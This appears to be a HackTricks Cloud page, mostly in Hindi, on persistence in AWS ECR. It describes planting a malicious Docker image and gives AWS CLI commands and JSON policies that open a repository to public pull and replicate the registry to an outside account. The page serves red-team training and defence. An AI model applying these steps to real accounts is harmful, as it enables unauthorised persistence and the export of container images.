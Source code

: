 # AWS - ECR Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

For more information check:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

एक हमलावर **एक ECR रिपॉजिटरी में दुर्भावनापूर्ण कोड वाला एक Docker इमेज अपलोड कर सकता है** और इसे लक्षित AWS खाते में स्थिरता बनाए रखने के लिए उपयोग कर सकता है। फिर हमलावर इस दुर्भावनापूर्ण इमेज को खाते के भीतर विभिन्न सेवाओं, जैसे कि Amazon ECS या EKS, में चुपचाप तैनात कर सकता है।

### Repository Policy

एकल रिपॉजिटरी में एक नीति जोड़ें जो आपको (या सभी को) एक रिपॉजिटरी तक पहुंच प्रदान करती है:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
{% hint style="warning" %}
ध्यान दें कि ECR को उपयोगकर्ताओं के पास **अनुमति** होनी चाहिए **`ecr:GetAuthorizationToken`** API को कॉल करने के लिए IAM नीति के माध्यम से **पहले वे एक रजिस्ट्री में प्रमाणित हो सकें** और किसी भी Amazon ECR रिपॉजिटरी से कोई भी छवि पुश या पुल कर सकें।
{% endhint %}

### रजिस्ट्री नीति और क्रॉस-खाता पुनरुत्पादन

एक बाहरी खाते में रजिस्ट्री को स्वचालित रूप से पुनरुत्पादित करना संभव है, जिसमें आपको **बाहरी खाते** को इंगित करने की आवश्यकता है जहां आप रजिस्ट्री को पुनरुत्पादित करना चाहते हैं।

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

पहले, आपको बाहरी खाते को रजिस्ट्री पर पहुंच प्रदान करने की आवश्यकता है एक **रजिस्ट्री नीति** के साथ जैसे:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
फिर पुनरुत्पादन कॉन्फ़िगरेशन लागू करें:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
